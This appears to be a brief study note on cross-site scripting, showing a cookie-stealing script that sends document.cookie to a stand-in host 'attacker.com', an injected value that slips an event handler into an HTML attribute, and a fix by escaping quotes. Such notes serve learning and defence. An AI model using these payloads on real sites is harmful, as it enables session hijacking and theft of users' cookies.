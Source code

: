 # session hijacking with xss

```
<script type="text/javascript">
	new Image().src =
		'https://attacker.com/steal?cookie=' + document.cookie
</script>
```
# Dangerous HTML attributes

```
<img src='x.png' alt = 'DATA' />
```
- if you put *DATA= example' onloda='alert(document.cookie)*
this is result

```
<img src='x.png' alt = 'example' onloda='alert(document.cookie)' />
```
- how to fix???
- change *'* and *''* to &apos;, &quot;

